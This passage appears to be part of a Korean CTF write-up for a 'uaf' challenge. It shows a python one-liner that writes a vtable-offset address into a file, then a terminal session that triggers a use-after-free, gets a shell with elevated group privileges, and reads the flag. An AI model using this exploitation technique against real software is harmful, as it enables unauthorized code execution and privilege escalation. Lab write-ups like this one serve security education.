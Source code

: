 * rbp-0x38에서 가져온 값 = 0x401570
* 이 값이 가져와서 8을 더한 값

UAF의 특성과 분석한 내용을 바탕으로 공격을 시도합니다.
```
uaf@ubuntu:~$ cd /tmp
uaf@ubuntu:/tmp$ python -c 'print "\x68\x15\x40\x00"' > secretpack
uaf@ubuntu:/tmp$
```
먼저 tmp 디렉터리로 이동하여 0x401570-8을 파일에 넣어둡니다.
```
uaf@ubuntu:/tmp$ /home/uaf/uaf 4 secretpack
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ id
uid=1029(uaf) gid=1029(uaf) egid=1030(uaf_pwn) groups=1030(uaf_pwn),1029(uaf)
$ cat /home/uaf/flag
yay_f1ag_aft3r_pwning
$
```
